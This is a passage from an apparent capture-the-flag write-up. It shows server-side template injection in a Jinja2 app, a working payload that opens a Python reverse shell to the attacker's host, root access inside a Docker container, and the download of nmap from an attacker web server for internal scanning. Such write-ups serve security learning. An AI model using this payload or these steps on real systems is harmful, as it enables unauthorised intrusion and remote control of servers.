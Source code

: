 It worked! I followed the [flow from HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#identify) to identify the template engine. Jinja2 was used. 

Next I started a netcat listener on my machine and tried to launch a reverse shell. 


{% raw %}
```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.23\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```
{% endraw %}

This got me a hit on my listener. 

```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444

Connection received on 10.129.146.71 52176
/bin/sh: 0: can't access tty; job control turned off
# whoami
root

# ls
Dockerfile
project
requirements.txt
```

## Lateral movement

Once I had a shell, I first solidified it. Then I stated looking around the machine. I was root on the machine. But it was quickly clear that I was in a Docker container. 

I wanted to look for other machines that were accessible from the one I was in. I starter a web server in my Kali VM and copied ncat in the webroot. 

```bash
$ cd www/

$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Then I used curl in the container to download nmap.

```bash
root@3a453ab39d3d:/tmp# curl 10.10.14.23:8000/nmap -o nmap
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 5805k  100 5805k    0     0   823k      0  0:00:07  0:00:07 --:--:--  828k

root@3a453ab39d3d:/tmp# chmod +x nmap 

root@3a453ab39d3d:/tmp# ./nmap 172.19.0.2/24

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-03-11 20:39 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.19.0.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000025s latency).
Not shown: 1205 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```